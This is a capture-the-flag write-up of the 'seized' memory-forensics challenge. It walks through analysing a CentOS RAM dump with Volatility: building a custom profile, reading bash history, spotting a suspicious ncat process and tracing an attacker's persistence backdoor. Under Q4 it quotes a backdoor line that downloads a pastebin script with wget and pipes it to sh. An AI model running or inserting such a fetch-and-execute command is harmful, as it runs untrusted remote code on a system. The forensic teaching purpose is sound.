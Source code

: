 ```yaml
---
layout: post
title: Cyberdefender | seized
published: true
---
```




## [](#header-2)Foreword. 
This is a writeup of the seized challenge. It comes from the CTF sharkCTF of 2019, and has been slightly modified. I would like to thank the creator of this challenge (2phi and Nofix). 

## [](#header-2)Introductions.
The objective of this challenge is to analyze a RAM dump, based on a CentOS system. 
The tools used will be the following 
- volatility V2 (https://github.com/volatilityfoundation/volatility)
- cyberchef (https://gchq.github.io/CyberChef/)
- grep (bmV2ZXIgZ29ubmEgZ2l2ZSB5b3UgdXA=)



## [](#header-2) Create custom Image

As explained above we are going to use volatility on a CentOS system. Unfortunately the Centos "profile" does not exist by default and we need a profile to be able to use volatiliy. 

The creators of the challenge were kind enough to give us all the files to create a custom profile. These are the following files: 
- module.dwarf
- System.map-3.10.0-1062.el7.x86_64

A complete procedure for creating a custom profile from a file is available [here](https://tunnelix.com/linux-memory-analysis-with-lime-and-volatility/), but we can summarize the creation of the profile with the following command

```
zip .\volatility\volatility\plugins\overlays\linux\Centos7.3.10.1062.zip .\c73-EZDump\Centos7.3.10.1062\module.dwarf .\c73-EZDump\Centos7.3.10.1062\boot\System.map-3.10.0-1062.el7.x86_64
```

Great now we have our custom profiles. 

## [](#header-2) Q1 : What is the CentOS version installed on the machine?

We can see that the file name is "Centos7.3.10.1062". 
Spoiler it is not the name of the version.
The real answer is on the wikipedia page of centos we can see that the name corresponds to the version 7.7.1908 of centos 

## [](#header-2) Q2 : There is a command containing a strange message in the bash history. Will you be able to read it?

Finally, let's start digging. 

Here is the command we will use 
python2 volatility/vol.py -f c73-EZDump/dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_bash

- python2 volatility/vol.py = launch volatility. 
- -f c73-EZDump/dump.mem = specify the file to analyze
- --profile=LinuxCentos7_3_1062x64 = the created cutom profile 
- linux_bash = the command that allows to see the history of bash commands. 

![Q2](/assets/Q2-seized.jpg)

## [](#header-2) Q3 : What is the PID of the suspicious process?

So first we need to list the processes with linux_pstree and see if any can be interpreted as odd or inappropriate. 
The command. 
```
python2 volatility/vol.py -f c73-EZDump/dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_pstree
```

![ncat ? weird isn't it ?](/assets/Q3-seized.png)
ncat ? weird isn't it ?

## [](#header-2) Q4 : The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

Remenber the bash history ? 
```
    2622 bash                 2020-05-07 14:56:25 UTC+0000   git clone https://github.com/tw0phi/PythonBackup
```
The attacker had to install elements of this guithub repository. 

Looking at the repository in the file app/snapshot.py we can see that the content of a pastebin has been downloaded.
```
os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
```
Go to the url and you have the flag. 